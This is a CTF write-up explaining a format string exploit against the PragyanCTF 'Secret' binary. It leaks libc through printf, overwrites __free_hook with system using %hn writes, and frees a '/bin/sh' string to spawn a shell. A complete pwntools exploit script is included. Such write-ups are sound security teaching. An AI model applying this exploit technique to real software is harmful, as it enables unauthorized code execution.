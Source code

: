 ```yaml
---
title: '[PragyanCTF] Secret'
published: true
author: Christos.S
---
```



This is a very good challange to polish and/or improve your `format string` skills. But since the CTF's server got hacked and couldn't exploit their server, I tried to at least write an exploit for the program locally with `libc 2.30`.

I first checked what security features are enabled in the binary.

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

I then opened the binary in [Ghidra](https://ghidra-sre.org/) and started looking through the decompiled code.
After some time looking through the code, I found what I was looking for... A vulnerability I could exploit.

In the function `show_task`, I found this:

```c
    void show_tasks(task *current) {
        printf("\n\nName: %s\n",current->name);
        printf("Date: %s\n",current->num);
        printf("Length: %d\n",current->desc_length);
        printf("Description: ");
        printf(current->desc);
        return;
    }
```

The vulnerable line of code is 
```c
printf(current->desc);
```
with a `format string` vunerability

Then my first thought was to look in the binary symbols for the function `system`; with no success. This led me to believe that I should start the exploit by leaking the `libc base` address.

So now that I have a basic understanding of the binary I can think of the attack:

1. Leak `libc base` address
2. Write the `system` function's address in the `__free_hook`
3. Free an address the points to the string `/bin/sh`

> In step 2 I could have as easily overwriten the GOT entry of some funtion, since the binary only has `Partial RELRO`; but I wanted to try something different with the hook functions I have read about.

Before I start I created 3 functions to interface with the 3 main functionalities of the binary:
1. Create Task
2. Remove Task
3. Display Tasks

___

## Step 1

I found an address on the stack at the `35th` place which points `249` bytes after the start of `__libc_start_main`

```python
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']
```

So after a simple substruction I was able to obtain the `libc base` address

___

## Step 2

This was by far the hardest step in the process. Writing `system`'s address in `__free_hook`. I was not able to just put the address I wanted to overwrite (`__free_hook`) on the the stack because simply my input was never saved on the stack; it went straight onto the heap. So my next option was to find an address on the stack (`2nd` place) that points to another address on the stack (`9th` place). 

Since the address that I wanted to overwrite (`9th` place) on the stack had a chance to have the same highest 2 bytes as the `__free_hooks`, I just written the lowest 2 bytes.

```python
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')
```

Then because I couldn't just write that huge of a number (address of `system`) in one go, I split it into 2 seperate writes. In the first one I wrote the lowest 2 bytes of `system`, changed the address I had on the stack to point 2 bytes forword so I was able to write the highest 2 bytes of `system` in the `__free_hook`

```python
createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')
```

After all this I triggered the the `format string exploit` with `displayTasks()`.

___

## Step 3 

What is now left to do is just free an address that has the string `/bin/sh` written in it. Luckly in the `remove_task` function,

```c
memset(task_ptr->name,0,0x40);
task_ptr->enabled = 0;
task_ptr->desc_length = 0;
free(task_ptr->num);
free(task_ptr->desc);
printf("Removed %s",removename);
```
the first thing that is freed is the `num` field of the `task structure` which is the `date` that is asked when creating a task.

The 1st task I created had `/bin/sh` in the `date` or `num` field, so as soon as that is freed, `system` will be executed with `/bin/sh` giving us a shell!!

```python
removeTask('pwned')
```

---

Below is the full `xpl.py` script:

```python
#!/usr/bin/python
from pwn import *
import re

context.terminal = ['tmux', 'splitw', '-h']

elf = ELF('./task')

gdbscript = '''
init-gef
c
'''

def start():
	if args.GDB: return gdb.debug(elf.path, gdbscript)
	else: return process(elf.path)

io = start()

def createTask(name, date, descLen, desc):
	io.sendlineafter(':', '1')
	io.sendlineafter(':', name)
	io.sendlineafter(':', date)
	io.sendlineafter(':', str(descLen))
	io.sendlineafter(':', desc)

def removeTask(name):
	io.sendlineafter(':', '2')
	io.sendlineafter(':', name)

def displayTasks():
	io.sendlineafter(':', '3')
	return io.recvuntil('1.')[:-2]

# Leak libc base address
createTask('pwned', '/bin/bash\x00', 10, '%35$x')
libc_start_main = int(re.findall('Description: (.*)', displayTasks())[0], 16) - 249
libc_base = libc_start_main - elf.libc.symbols['__libc_start_main']

log.success('libc_start_main: 0x%x' % libc_start_main)
log.success('libc base: 0x%x' % libc_base)

# Overide __free_hook with system
system_libc = libc_base + elf.libc.symbols['system']
free_hook = libc_base + elf.libc.symbols['__free_hook']

log.success('system: 0x%x' % system_libc)
log.success('__free_hook: 0x%x' % (free_hook))

# Write __free_hook addr on the stack
createTask('AAAA', 'BBBB', 0xffff, 'A' * (free_hook & 0x0000ffff) + '%2$hn')

log.success("Ready to overwrite __free_hook")

createTask('DDDD', 'EEEE', 0xffff, 'A' * (system_libc & 0x0000ffff) + '%9$hn')
createTask('FFFF', 'GGGG', 200, 'A' * ((free_hook & 0x000000ff) + 2) + '%2$hhn')
createTask('HHHH', 'IIII', 0xffff, 'A' * ((system_libc & 0xffff0000) >> 16) + '%9$hn')

displayTasks()

removeTask('pwned')

io.interactive()
```
